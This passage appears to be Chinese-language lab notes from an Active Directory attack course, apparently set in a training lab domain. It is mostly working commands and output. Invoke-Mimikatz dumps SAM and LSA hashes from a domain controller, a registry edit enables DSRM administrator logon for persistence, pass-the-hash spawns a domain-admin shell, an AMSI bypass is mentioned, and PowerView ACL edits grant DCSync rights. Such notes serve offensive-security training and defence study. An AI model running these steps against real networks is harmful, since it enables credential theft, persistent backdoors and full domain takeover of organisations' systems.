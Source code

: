 ```

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc

SAMKey : 33e0913ef3886d77d5873060bcea1cfb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd
```
这里会出现Administrator的哈希(也就是DSRM的密码)：```a102ad5753f4c441e3af31c97fad86fd```

再用下面命令dump出现在Administrator的密码，与上面DSRM的密码进行比较

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760
```
新的密码是：```af0686cc0ca8f04df42210c9ac980760```

DSRM administrator不允许登陆，用之前的session进入DC修改

要先bypass ASMI

再运行下面命令，修改DSRM的远程登录策略
```
 New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```


现在用DSRM的原始哈希，来运行一个有DA权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

#  Dcsync 

using ACLs – Rights Abuse

查找当前账号是否有DCSync的权限
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
 如果没有任何返回，表示没有权限

来到有DA权限的shell

添加完全控制权限
```
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student366 -Rights All -Verbose
```
再把Dcsync权限赋予当前学生账号student366
```
Add-ObjectAcl -TargetDistinguishedName"dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student366 -Rights DCSync -Verbose
```

```